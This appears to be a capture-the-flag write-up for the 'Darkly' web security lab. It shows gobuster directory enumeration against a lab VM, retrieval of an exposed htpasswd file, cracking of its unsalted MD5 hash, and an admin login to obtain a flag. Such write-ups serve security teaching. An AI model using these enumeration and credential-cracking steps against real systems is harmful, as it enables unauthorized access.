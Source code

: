 Brute Force Attack
=====================

https://owasp.org/www-community/attacks/Brute_force_attack

Like always, after messing around for a while with the landing page, it's time for some good old fashioned directory busting.


```
hakim@mentos42:~/42/Darkly$ gobuster dir --exclude-length 975 --url http://192.168.56.104 --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.104
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] Exclude Length:          975
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 193] [--> http://192.168.56.104/images/]
/admin                (Status: 301) [Size: 193] [--> http://192.168.56.104/admin/]
/audio                (Status: 301) [Size: 193] [--> http://192.168.56.104/audio/]
/css                  (Status: 301) [Size: 193] [--> http://192.168.56.104/css/]
/includes             (Status: 301) [Size: 193] [--> http://192.168.56.104/includes/]
/js                   (Status: 301) [Size: 193] [--> http://192.168.56.104/js/]
/fonts                (Status: 301) [Size: 193] [--> http://192.168.56.104/fonts/]
/errors               (Status: 301) [Size: 193] [--> http://192.168.56.104/errors/]
/whatever             (Status: 301) [Size: 193] [--> http://192.168.56.104/whatever/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

Non-existing URIs, like `/nonexistent` return a 404 error page, however, with a 200 HTTP status code, which confuses gobuster. So we can't rely on non-200 status codes, and we have to base it on the response Content Length (the 404 not found page always has the same content length, 975 in this case).

There are a couple of juicy looking endpoints, like /admin, /whatever, /errors, /audio and such. let's focus on /whatever for now.

The `/whatever` URI shows a directory list with 1 file: `htpasswd`

```
hakim@mentos42:~$ curl -L http://192.168.56.104/whatever
<html>
<head><title>Index of /whatever/</title></head>
<body bgcolor="white">
<h1>Index of /whatever/</h1><hr><pre><a href="../">../</a>
<a href="htpasswd">htpasswd</a>                                           29-Jun-2021 18:09                  38
</pre><hr></body>
</html>

hakim@mentos42:~$ curl -L http://192.168.56.104/whatever/htpasswd
root:437394baff5aa33daa618be47b75cb49
```

This file contains a `user:password` pair, with the password being a simple MD5 hash. Usually, for simple hashes with no salts I use the [CrackStation](https://crackstation.net/) webpage to obtain the cleartext password.

It shows us that the cleartext password is: `qwerty123@`. I wonder where could I introduce this user's credentials.... 
Earlier we discovered the `/admin` page. The content of this page is a simple user/passwd form. We introduce the credentials and we obtain the flag.

`http://192.168.56.104/admin`
The flag is : d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff

